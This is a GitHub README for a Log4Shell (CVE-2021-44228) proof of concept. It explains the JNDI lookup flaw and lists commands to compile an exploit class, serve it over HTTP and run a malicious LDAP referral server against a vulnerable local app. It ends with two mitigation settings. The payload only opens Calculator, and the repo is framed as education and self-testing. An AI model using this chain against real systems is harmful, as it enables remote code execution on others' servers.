


# CVE-2021-44228 (Log4Shell) Proof of Concept


Apache Log4j2 <=2.14.1 JNDI features used in configuration, log messages, and parameters do not protect against attacker controlled LDAP and other JNDI related endpoints.
An attacker who can control log messages or log message parameters can execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled.

To help customers understand how this flaw works, we prepared this repo with a simple yet working Proof of Concept.

## Prerequisites

Having installed locally:

- Git
- JDK 11
- Maven
- Python

At the moment, the arbitrary code launches the Calculator application on macOS or Windows, so only those two operating systems are supported by this PoC.

## Disclaimer

All informations and code are provided solely for educational purposes and/or testing your own systems for this vulnerability.

## The attack tecnique

This PoC resemble the described in the picture below (credits [GovCERT.ch](https://GovCERT.ch)), a part from the vulnerable server that is just a simple Java class for the sake of simplicity. It's important to understand that this vulnerability may be triggered in various ways, what is described below is just one of them.



## How to run the PoC

Clone this repo

```console
terminal1 $ git clone https://github.com/sunnyvale-it/CVE-2021-44228-PoC.git
```

Compile the exploit (using JDK 11)

```console
terminal1 $ javac Exploit.java
```

Run an HTTP server to serve the exploit

```console
terminal1 $ python -m SimpleHTTPServer 8888 --directory .
```

Start the malicious LDAPRefServer (thanks to https://github.com/mbechler/marshalsec)

```console
terminal2 $ java -cp tools/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Exploit"
```

Launch the buggy application (containing log4j 2.14.1)

```console
terminal3 $ mvn package && mvn exec:exec
```

If everything went fine, the Calculator application (arbitrary code execution) should pop-up



## Quick mitigations (work on Log4J versions 2.10.0 up to 2.14.1)

### Set the LOG4J_FORMAT_MSG_NO_LOOKUPS env variable to true

```console
terminal3 $ export LOG4J_FORMAT_MSG_NO_LOOKUPS=true 
```

```console
terminal3 $ mvn package && mvn exec:exec
```

In this case the Calculator shouldn't pop-up anymore

### Run the application with log4j2.formatMsgNoLookups System property set to true

```console
terminal3 $ mvn package && mvn exec:exec -Dlog4j2.formatMsgNoLookups=true
```
In this case the Calculator shouldn't pop-up anymore